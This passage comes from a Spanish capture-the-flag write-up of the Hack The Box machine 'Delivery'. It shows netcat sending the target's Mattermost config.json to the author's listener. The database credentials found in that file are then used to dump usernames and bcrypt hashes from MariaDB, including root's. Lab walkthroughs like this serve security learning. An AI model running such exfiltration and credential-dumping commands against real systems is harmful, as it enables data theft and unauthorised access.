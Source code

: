 Como hay bastante contenido en este archivo voy a pasarlo a mi máquina y lo visualizaré con el comando jq (jason) para verlo más bonico.  
Desde mi máquina, me pongo en escucha:
```
❯ nc -nlvp 4448 > config.json
listening on [any] 4448 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.222] 56220
```
Y en la máquina objetivo:
```
maildeliverer@Delivery:/opt/mattermost/config$ nc 10.10.14.2 4448 < config.json
```
Ahora volviendo a la mia hago **Ctrl + c** y veo el archivo. Curioseamos un poco:
```
> cat config.json | jq
* Mucho contenido, voy a hacer un less -S , para verlo poco a poco.
> cat config.json | jq | less -S
```
Y consigo ver unas credenciales de acceso para la base de datos SQL.

![Sql-Credenciales]({{ 'assets/img/writeups/Delivery/credenSQL.png' | relative_url }}){: .center-image }

Las credenciales parecen ser:  
mmuser:Crack_The_MM_Admin_PW

```
maildeliverer@Delivery:/opt/mattermost/config$ mysql -u mmuser -p'Crack_The_MM_Admin_PW' 

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 207
Server version: 10.3.27-MariaDB-0+deb10u1 Debian 10

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mattermost         |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [(none)]> 
```
¡Atention Please!. No pongas espacio entre la opción **p** y la contraseña, porque no te deja acceder por esa chorrada.

Luego uso estos comandos dentro:
``` 
use mattermost;  
show tables;  
describe Users;  
select Username,Password from Users;
root | $2a$10$VM6EeymRxJ29r8Wjkr8Dtev0O.1STWb4.4ScG.anuu7v0EFJwgjjO
```
Veo varios usuarios y varios hashes pero el que más me interesa es el de root.
